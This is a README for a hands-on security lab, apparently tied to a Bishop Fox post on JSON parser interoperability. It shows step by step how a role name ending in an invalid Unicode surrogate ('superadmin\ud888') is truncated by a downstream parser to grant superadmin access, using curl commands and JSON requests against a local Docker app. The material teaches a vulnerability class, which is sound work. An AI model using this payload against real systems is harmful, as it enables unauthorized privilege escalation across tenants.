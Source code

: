 # Lab 2: Privilege Escalation in a Multi-tenant Application
<p align="center">
  <img src="../media/lab2.jpg">
</p>

###
Let's consider a multi-tenant application where an organization admin is able to create custom user roles. We also know that users that have cross-organizational access are assigned the internal role `superadmin`. Let’s try to escalate privileges.

There are two APIs:
* **User API (port 5002)**: Python, stdlib JSON
* **Permissions API (port 5003)**: Python, stdlib JSON
* **Admin API (port 5004)**: Python, ujson


### Setup
Run docker-compose from the `lab2` directory:

```bash
docker-compose up -d
```

### Demo: Character truncation


1\. Create a role that will be truncated by a downstream parsers.

Command:
```
curl localhost:5002/role/create -H "Content-Type: application/json" -d @role2.json
```

Request:
```
POST /role/create HTTP/1.1
...

{
        "name": "superadmin\ud888"
}
```

2\. Create a new user with that malformed role name.

Command:
```
curl localhost:5002/user/create -H "Content-Type: application/json" -d @user2.json
```

Request:
```
POST /user/create HTTP/1.1
...

{
    "user": "exampleUser",
    "roles": [
        "superadmin\ud888"
    ]
}
```

3\. Access the Admin API due to truncation performed by parser when reading the response from the Permissions API ([See blog post for more details](https://labs.bishopfox.com/tech-blog/an-exploration-of-json-interoperability-vulnerabilities#Example-Validate-Store%20Pattern)).

Command:
```
curl localhost:5004/admin -H "Cookie: username=exampleUser"
```

**Note:** `role1.json`, `user1.json` are templates for well-behaved requests. `user3.json` attempts to directly assign `superadmin` role.
